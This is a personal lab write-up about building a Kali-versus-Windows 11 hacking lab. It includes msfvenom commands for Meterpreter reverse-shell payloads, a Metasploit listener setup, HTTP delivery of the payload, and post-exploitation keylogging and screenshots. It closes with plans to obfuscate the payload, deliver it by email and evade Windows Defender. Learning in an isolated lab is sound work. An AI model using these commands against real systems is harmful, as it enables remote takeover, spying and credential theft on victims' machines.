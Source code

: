 -   I havent worked too much with kali linux but today I am going to
    attempt to create a remote pc hacking lab. I am going to have 2
    vm's, a kali linux (attacker vm), and a windows 11 vm (vulnerable
    target). I might have a metasploitable vm further down the line to
    explore more about this.

-   First I am going to install a kali linux pre built vm and open it.

-   I run sudo apt update && sudo apt full-upgrade -y

    -   ![](images\media\image7.png){width="13.458333333333334in"
        height="9.885416666666666in"}

-   Lets confirm our ip to generate payloads

    -   ![](images/media/image11.png){width="6.78125in"
        height="5.479166666666667in"}

    -   It is 192.168.7.132

-   Lets generate the payload

    -   ![](images/media/image4.png){width="6.854166666666667in"
        height="5.489583333333333in"}

-   Lets set up the listener in metasploit. I first run msfconsole

    -   ![](images/media/image1.png){width="6.802083333333333in"
        height="5.4375in"}

-   In the metasploit terminal, lets run:

    -   use exploit/multi/handler

> set payload windows/meterpreter/reverse_tcp
>
> set LHOST 192.168.7.132
>
> set LPORT 4444
>
> exploit

-   ![](images/media/image6.png){width="7.03125in" height="5.59375in"}

<!-- -->

-   I then open another terminal and create a http server where you can
    download the payload. I will later experiment social engineering
    attacks paired with the payload but for now we are going to download
    it directly from the server.

-   On the vm, I go directly to the http server
    ([[http://192.168.7.132/payload.exe]{.underline}](http://192.168.7.132/payload.exe))
    which automatically downloads the payload. I go ahead and execute it

    -   ![](images/media/image8.png){width="14.510416666666666in"
        height="9.15625in"}

-   If we go to our attacker machine, we get something

    -   ![](images/media/image10.png){width="6.760416666666667in"
        height="5.4375in"}

-   I am going to open the session by using sessions-i 1. I then attempt
    to get some info like executing sysinfo but unfortunately it appears
    windows defender is blocking the payload

    -   ![](images/media/image9.png){width="6.708333333333333in"
        height="5.416666666666667in"}

-   Ok, In the vulnerable machine i double checked that real time
    defender, the firewall, etc are off

-   I am going to try to make another payload but this time i will use
    x64 architecture since i am targeting a windows 11 machine

    -   msfvenom -p windows/x64/meterpreter/reverse_tcp
        LHOST=192.168.x.x LPORT=4444 -f exe -o payload.exe

    -   Then do this command in the metasploit console:

    -   use exploit/multi/handler

> set payload windows/x64/meterpreter/reverse_tcp
>
> set LHOST 192.168.7.132
>
> set LPORT 4444
>
> Exploit

-   Ok, that didn't work

-   Gonna try reverse_tcp instead of reverse_https since it is less
    likely to be flagged. Also gonna use port 443 to bypass basic
    firewalls:

    -   msfvenom -p windows/x64/meterpreter/reverse_https
        LHOST=\<Kali_IP\> LPORT=443 -f exe -o payload.exe

    -   use exploit/multi/handler

> set payload windows/x64/meterpreter/reverse_https
>
> set LHOST 192.168.7.132
>
> set LPORT 443
>
> Exploit

-   After turning off every single protection layer I know of, I am
    finally able to run sysinfo. (i added the payload to allowed
    threats, and ran the program as the administrator)

    -   ![](images/media/image3.png){width="6.802083333333333in"
        height="5.458333333333333in"}

-   Ran some basic commands like sysinfo, getuid, keyscan_start/dump,
    screenshot (you can see what was on the victim's machine behind the
    terminal)

    -   ![](images/media/image5.png){width="14.520833333333334in"
        height="11.520833333333334in"}

    -   Also ran ipconfig to get networking information

    -   ![](images/media/image2.png){width="6.666666666666667in"
        height="5.395833333333333in"}

**Next I will try to obsuficate the payload and put it in emails, files,
docs! I am going to attempt to also bypass all of windows defender
bloat.**
